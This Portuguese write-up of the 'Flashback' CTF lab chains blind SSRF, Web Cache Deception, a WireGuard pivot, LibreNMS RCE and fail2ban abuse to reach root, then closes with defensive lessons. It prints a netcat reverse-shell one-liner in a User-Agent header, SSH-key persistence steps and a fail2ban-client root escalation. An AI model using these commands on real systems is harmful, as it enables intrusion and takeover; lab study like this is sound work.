


> Writeup da máquina **Flashback** (HackingClub): um SSRF cego dentro de um formulário
> _anti-phishing_, **Web Cache Deception** para capturar a sessão do staff, pivot por **WireGuard**
> até um **LibreNMS**, RCE autenticado (**CVE-2026-55182**) e dois abusos de **fail2ban** — um
> User-Agent que o root executa e um `sudo fail2ban-client` — até o **root**. As flags aparecem
> **redigidas** (`REDACTED`). _[Read in English](/posts/hc-flashback-en/)._

A máquina abre com um gesto de boa-fé. O portal da Halcyon Electric tem um cartão simpático:
_"recebeu um SMS ou e-mail mandando 'verificar sua conta'? Cole o link aqui. Nossa equipe de
segurança abre todo link reportado no console do staff para ver onde ele leva."_ É a defesa anti-phishing
da empresa. Você cola um link suspeito, um analista olha por você. Gentil.

O nome da room é a pista. _Flashback_: o sistema vai reproduzir, para um estranho anônimo, um momento
que pertencia a outra pessoa — a sessão autenticada de um funcionário, servida de volta por um cache
que não devia ter guardado nada. O formulário que existe para te proteger de um golpe é, ele mesmo, a
porta de entrada.

A cadeia inteira, em uma frase: reportar um link aciona um **SSRF cego** por um bot autenticado →
**Web Cache Deception** força o nginx a guardar a resposta do staff sob uma URL `.css` → releio
**deslogado** e roubo o dashboard → de lá saem um **token de API** e um **perfil WireGuard** → entro
no segmento **OT**, acho um **LibreNMS** e consigo **RCE** (CVE-2026-55182) → caio num container, de
onde abuso o **fail2ban** do host com um **User-Agent malicioso** para virar um usuário → e um
`sudo fail2ban-client` sem senha me entrega o **root**.

## Recon: três portas e um segundo nome escondido no certificado

Scan rápido com [rustscan](https://github.com/RustScan/RustScan) empurrando o nmap por trás:

```console
$ nmap flashback.hc -sC -sV
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 10.2p1 Ubuntu
80/tcp  open  http     nginx 1.28.3 (Ubuntu)
|_http-title: Did not follow redirect to https://flashback.hc/
443/tcp open  ssl/http nginx 1.28.3 (Ubuntu)
| ssl-cert: Subject: commonName=flashback.hc
| Subject Alternative Name: DNS:flashback.hc, DNS:ops.flashback.hc
|_http-title: My Halcyon \xE2\x80\x94 customer portal
```

Três portas, mas o ouro do recon está no certificado TLS: o _Subject Alternative Name_ lista um
segundo host — **`ops.flashback.hc`**. O portal público é a fachada; o `ops` é o cofre. Ambos no
`/etc/hosts` e segue o jogo.


O `flashback.hc` é um portal de concessionária de energia: status da rede, relatório de quedas, e o tal
formulário de reportar mensagens suspeitas. O `ops.flashback.hc` responde outra coisa — uma tela de
login de "Staff console".



Sem credenciais, sem usuário, sem versão óbvia para atacar. Toda a superfície interessante está atrás
desse login. Então a pergunta vira: **como fazer alguém que já está logado trabalhar por mim?**

## O fetcher: reportar um link é um SSRF cego

O formulário manda um `POST /phishing` com o campo `link`. Subo um
`python -m http.server` e colo meu próprio endereço no campo:

```console
$ python -m http.server 4444
172.16.x.x - - [12:38:19] "GET / HTTP/1.1" 200 -
```

Chegou. O servidor **busca a URL que eu mandar** — é um SSRF. A resposta HTTP, porém, é sempre a mesma
página _"Report received"_, não importa o que eu aponte. Logo é **cego**: o conteúdo buscado nunca
volta pra mim pela resposta. A própria página avisa: _"os links reportados são abertos no console do
staff"_.

Preciso caracterizar esse fetcher antes de sonhar com exploit. Sirvo uma página com três iscas —
uma ``, um CSS e um `<script>` — e observo o que ele puxa:

```text
172.16.x.x - - [13:22:26] "GET / HTTP/1.1" 200 -
```

Só o `GET /`. Nada de imagem, CSS ou JS. Conclusão: **não é um navegador** de verdade — é um fetcher
server-side simples, que faz **um único GET** na URL exata e para. Isso mata qualquer sonho de XSS ou
exfil client-side. Um segundo teste, com um redirecionador 302, revela mais duas propriedades úteis:

```text
HIT /redir           UA=HalcyonTriageBot/1.1
HIT /redir-seguido   UA=HalcyonTriageBot/1.1
```

O bot se identifica como **`HalcyonTriageBot/1.1`** e **segue redirects**. Tenho então um robô que,
a meu pedido, faz um GET autenticado como staff em qualquer URL — mas sou cego ao resultado. Um SSRF
cego contra um alvo autenticado é frustrante… a não ser que eu ache **onde a resposta dele fica
guardada**.

## Web Cache Deception: obrigando o nginx a guardar a sessão do staff

O `ops` tem um `nginx` na frente, e nginx na frente quase sempre significa **cache**. A pergunta é:
qual é a regra que decide o que cachear? Uma bateria de probes deslogado, de olho no header
`X-Cache`, responde:

| Requisição               | Status      | X-Cache  | Leitura                         |
| ------------------------ | ----------- | -------- | ------------------------------- |
| `GET /`                  | 302 → login | PASS     | não cacheável                   |
| `GET /dashboard`         | 302 → login | PASS     | rota conhecida, não cacheável   |
| `GET /dashboard/x.css`   | 302 → login | **MISS** | **cacheável** (extensão `.css`) |
| `GET /qualquercoisa.css` | 302 → login | **MISS** | **cacheável** (qualquer `.css`) |
| `GET /assets/semext`     | 302 → login | PASS     | sem extensão → não cacheável    |

A regra liga na **extensão** (`.css`), não no prefixo `/assets/`. `PASS` significa "nunca cacheia";
`MISS` significa "cacheável, mas ainda não está no cache". E um detalhe que faz o ataque ser limpo:
repetir uma URL `.css` deslogado continua dando **MISS** — o nginx **não guarda o 302** de quem não
está logado. Ou seja, meu toque anônimo não suja o slot; só uma resposta `200` o preenche.

Aqui as peças se encaixam. **Web Cache Deception**: eu faço o bot (que está logado como staff) pedir
uma URL que _termina em `.css`_ mas que o backend serve como **página autenticada** `200`. O nginx,
vendo a extensão, acha que é um arquivo estático e **guarda a resposta no cache**. Aí eu, deslogado,
leio a mesma URL — e o cache me entrega a página do staff com um `HIT`.

O primeiro tiro erra bonito: aponto o bot para `/assets/console.css`, que existe de verdade — é um CSS
público, igual pra todo mundo, inútil. A correção é usar um caminho `.css` **que não existe**: o
_catch-all_ de autenticação do app devolve a página do dashboard (`200`) nesse caminho, e _essa_
resposta é que vale a pena cachear.

```text
1. Bot busca (via /phishing):  http://ops.flashback.hc/assets/pwn.css   ← não existe
2. O ops autenticado serve o dashboard 200 nesse path  → nginx cacheia
3. Releio deslogado  GET /assets/pwn.css  →  200 + X-Cache: HIT  → dashboard do staff
```

E o cache abre a porta:



A sessão de um analista, reproduzida inteira para mim. _Flashback._

## O que o dashboard entrega: um token e um caminho para a rede OT

A página do staff vem recheada. Um **personal access token** (`triage:read cases:read
integrations:read`), a base da API (`https://ops.flashback.hc/api`), e — o fio que puxa o resto — um
cartão de **OT integrations** com o recado exato: _"as credenciais e o perfil WireGuard são servidos
por `GET /api/integrations`"_.

Chamo a API com o token no `Authorization: Bearer`:

```console
$ curl -sk https://ops.flashback.hc/api/integrations -H "Authorization: Bearer <token>" | jq
{
  "integrations": [{
    "name": "OT network monitor (LibreNMS)",
    "url": "http://10.66.0.1:8000",
    "auth": { "type": "basic", "username": "otmonitor", "password": "<redigida>" },
    "notes": "Field network is segmented; attach to the field VPN before using the monitor.",
    "vpn": {
      "name": "field-ops",
      "endpoint": "172.16.x.x:51820",
      "profile": "[Interface]\nPrivateKey = <redigida>\nAddress = 10.66.0.2/32\n..."
    }
  }]
}
```

Um **LibreNMS** em `10.66.0.1:8000`, num segmento de rede isolado, credenciais em claro e um perfil
**WireGuard** inteiro para chegar lá. O escopo `integrations:read` que parecia inofensivo era a chave
do segmento OT.

## Pivot: subir o túnel e alcançar o LibreNMS

Salvo o perfil, subo a interface e confirmo o _handshake_:

```console
$ sudo wg-quick up field-ops
$ sudo wg show field-ops        # latest handshake + transfer rx/tx
$ ping -c1 10.66.0.1            # túnel de pé
```

> Nota de campo: o endpoint do WireGuard é o que **o próprio perfil** entrega (`GET /api/integrations/vpn`).
> Como o lab reseta e troca de IP, o jeito confiável de subir o túnel é sempre regravar o `.conf`
> direto dessa resposta antes de levantar a interface — nada de chutar o endpoint na mão.

`AllowedIPs = 10.66.0.0/24` deixa só esse `/24` ir pelo túnel (split-tunnel), e o LibreNMS aparece do
outro lado.

## RCE no LibreNMS: o transport de alerta que executa comando

O `10.66.0.1:8000` responde `302 → /login` com cookies `laravel_session` — é Laravel/PHP. As
credenciais `otmonitor` não são HTTP Basic; são o **login do app**. Entro, e o `/about` entrega a
versão: **LibreNMS 26.4.1**. Melhor ainda, o `otmonitor` é **admin** (acesso a Settings, Global
Settings, Manage Users).

Versão + admin me levam ao **CVE-2026-55182**, um RCE no _Signal alert transport_ (afeta `< 26.5.0`).
A mecânica é elegante na sua maldade: o admin configura o transport do Signal, inclusive o **caminho
do binário** `signal-cli`. O LibreNMS passa os argumentos com `escapeshellarg`, mas um script interno
(`composer_wrapper.php`) faz uma **segunda interpretação** sem sanitizar. Apontando o path do
`signal-cli` para esse wrapper, os argumentos viram comando. O gatilho é mandar um **alerta de teste**
pelo transport.

Monto uma reverse shell em Python, uso o [penelope](https://github.com/brightio/penelope) como handler,
e o callback chega:

```console
$ penelope
[+] Shell => librenms@2ba47a043012
librenms@2ba47a043012:/opt/librenms$ ls /.dockerenv && echo in-container
/.dockerenv
in-container
```

`uid=1000(librenms)`, hostname de hash e um `/.dockerenv` — estou dentro de um **container Docker**, não
no host. O LibreNMS era só a casca.

## O mapa que o host deixou cair no container

A enumeração do container (rede `172.18.0.0/16`: eu no `.2`, o MariaDB no `.3`, o gateway no `.1`) não
leva longe — sem sudo, sem SUID. O achado que importa é um **bind-mount** vindo do host, em
`/data/host-ops`:

```text
/data/host-ops/
├── README.txt
├── fail2ban/
│   ├── jail.local
│   ├── ot-adm-notify.conf
│   └── ot-monitor-pivot.conf
└── ot-notify-adm.sh
```

Essa pasta é o roteiro que a máquina deixou à mostra. O `README` descreve um "pivot request" que só o
container pode fazer: um `GET /pivot-<token>` ao gateway, com um `User-Agent` sob meu controle. Lendo
os arquivos do fail2ban, o mecanismo se revela inteiro:

- `jail.local` define a jail `ot-monitor-pivot`, que vigia o `access.log` do nginx do gateway,
  com `maxretry = 1`, `findtime = 5m`, `bantime = 5m`.
- `ot-monitor-pivot.conf` tem o `failregex` que casa `GET /pivot-<token>` e **captura o User-Agent**;
  o `ignoreregex` exige que a origem seja `172.18.0.*` (de dentro do Docker).
- `ot-adm-notify.conf` é o `banaction`: quando a jail bane um IP, roda
  `runuser -u ademiro -- ot-notify-adm.sh "<User-Agent>" <ip>` — ou seja, **executa como o usuário
  `ademiro`**.
- E o `ot-notify-adm.sh`:

```sh
#!/bin/sh
eval "notify-send Banned: $1 from $2" 2>/dev/null || true
```

Um **`eval` no `$1`**, que é o meu User-Agent. A notificação de banimento executa o nome de quem
"atacou". Injeção de comando por design: eu me banho de propósito e, no aviso do banimento, o host
roda o que eu mandar — como `ademiro`.

## A injeção por User-Agent: o escaping que quase me enganou

A armadilha aqui é sutil, e me custou tempo. O padrão óbvio — "fecha a aspa, injeta, reabre" —
**não funciona**, por dois motivos que só aparecem quando você olha de perto.

Quando o shell monta a string para o `eval`, as aspas externas somem e o `$1` entra **sem aspas em
volta**:

```text
eval "notify-send Banned: $1 from $2"   →   notify-send Banned: <UA> from <ip>
```

Então um payload do tipo `"; comando ; echo "` se sabota sozinho: a aspa inicial casa com a final, o
`;` fica **dentro** de uma string literal, e o comando vira texto passado pro `notify-send`. Pior: uma
aspa dupla no User-Agent **quebra o próprio `failregex`** (o campo do UA no log é `"[^"]*"`, que não
aceita `"`), então nem o banimento dispararia direito. Dois motivos para o silêncio, nenhum deles óbvio.

A correção é não usar aspa nenhuma. Como o `$1` entra solto, basta `; comando ;`. Validei localmente
antes de gastar um tiro:

```console
$ test(){ eval "notify-send Banned: $1 from $2" 2>/dev/null || true; }
$ test '; echo INJETOU id=$(id -un) ;' "1.2.3.4"
INJETOU id=rt
```

Disparo o gatilho **de dentro do container** (origem `172.18.0.*`), com o payload no `-A` do curl.
O comando roda como `ademiro` **no host**, e o callback precisa voltar para o container (`172.18.0.2`),
que o gateway alcança pela bridge do Docker:

```console
$ curl -s http://172.18.0.1/pivot-<token> \
    -A '; rm -f /tmp/.f;mkfifo /tmp/.f;cat /tmp/.f|sh -i 2>&1|nc 172.18.0.2 4446 >/tmp/.f ;'
```

Um detalhe tático decide o ritmo: `maxretry=1 / bantime=5m` dá **um tiro a cada 5 minutos**. Depois de
cada banimento, o IP fica "banido" e o `banaction` não roda de novo até a janela expirar. Então nada de
rajada: um payload, espera, outro payload.

O shell de `ademiro` cai — mas cru, sem PTY, instável. Em vez de brigar com ele, gasto **um** gatilho
para plantar persistência de verdade: a notificação de banimento escreve minha chave pública no
`~/.ssh/authorized_keys` do `ademiro`. A partir daí, um SSH limpo e reconectável:

```console
$ ssh -i ademiro_key ademiro@flashback.hc
ademiro@ip-172-16-6-126:~$ cat ~/user.txt
hackingclub{REDACTED  ·  user}
```

Primeira flag. E, de quebra, saí da roleta de 5 minutos.

## Root: o `fail2ban-client` que você pode rodar como root

O `ademiro` tem um `sudo` revelador:

```console
ademiro@ip-172-16-6-126:~$ sudo -l
User ademiro may run the following commands:
    (root) NOPASSWD: /usr/bin/fail2ban-client
```

A máquina volta ao próprio tema: o fail2ban me trouxe até aqui, e é o fail2ban que me leva adiante. O
`fail2ban-client` conversa com o servidor fail2ban, **que roda como root**. E o servidor deixa você
definir, em tempo real, o comando que uma jail executa ao banir um IP. Então eu crio uma ação com o
comando que eu quiser e disparo um ban — o comando roda como root:

```console
$ sudo fail2ban-client set ot-monitor-pivot addaction pwn
$ sudo fail2ban-client set ot-monitor-pivot action pwn actionban \
    "mkdir -p /root/.ssh; echo <minha-chave-pub> >> /root/.ssh/authorized_keys; chmod 600 /root/.ssh/authorized_keys"
$ sudo fail2ban-client set ot-monitor-pivot banip 9.9.9.3
```

Duas pedras no caminho, ambas instrutivas. A primeira tentativa foi um `cp /bin/bash` com bit SUID —
e falhou: `/tmp` está montado **`nosuid`**, então o SUID é simplesmente ignorado na execução. A
segunda pedra: cada `banip` precisa de um **IP novo**, senão o alvo já está banido e o `banaction` não
roda de novo. Contornando as duas, a rota limpa é a mesma de antes — **plantar uma chave SSH**, agora
no `/root`.

Como o sshd aceita login de root por chave (`prohibit-password`), a chave no `authorized_keys` vale um
shell de root direto:

```console
$ ssh -i ademiro_key root@flashback.hc
root@ip-172-16-6-126:~# cat /root/root.txt
hackingclub{REDACTED  ·  root}
```

Root. Máquina inteira.

## O que fica

Flashback não depende de nenhum 0-day exótico — depende de **confiança mal colocada**, camada após
camada, e de uma narrativa onde cada defesa vira vetor:

- **A feature anti-phishing é o SSRF.** "Reportamos links suspeitos abrindo eles no console do staff"
  é um fetcher autenticado controlado pelo atacante. Se um bot abre links do usuário com privilégio,
  trate isso como SSRF desde o primeiro dia — isole o fetcher, nunca o rode autenticado.
- **Cache por extensão é Web Cache Deception esperando acontecer.** Decidir cachear por `.css` no fim
  da URL, ignorando o que o backend realmente respondeu, deixa o nginx guardar uma página `200`
  autenticada sob uma chave pública. Cacheie pelo `Content-Type` e pelos headers de cache da resposta,
  não pela extensão do caminho.
- **Escopos "read" não são inofensivos.** `integrations:read` parecia leitura passiva; entregava
  credenciais e uma VPN para outro segmento. Segredo que a API devolve é segredo que vazou.
- **Segmentar a rede não basta se a chave da VPN está na API.** O OT estava isolado — e o caminho para
  ele estava num endpoint autenticado a um WCD de distância.
- **Logar o User-Agent e depois dar `eval` nele é RCE.** O `ot-notify-adm.sh` transforma a notificação
  de um banimento em execução do nome do atacante. Nunca passe dado de log por `eval`; nunca confie no
  User-Agent.
- **`sudo` em `fail2ban-client` é `sudo` em qualquer comando.** Uma ferramenta que define e dispara
  comandos de root é uma porta para root. O mesmo vale para a maioria dos "clientes" administrativos no
  sudoers.

O recado da room está no nome. Um cache que reproduz a sessão de outra pessoa, um fail2ban que executa
o nome de quem ele acabou de banir: Flashback é feita de sistemas que **repetem**, para a pessoa
errada, algo que deviam ter esquecido. Telemetria, cache e automação de defesa não são neutros — mal
pensados, eles guardam e replicam exatamente o que o atacante precisa.
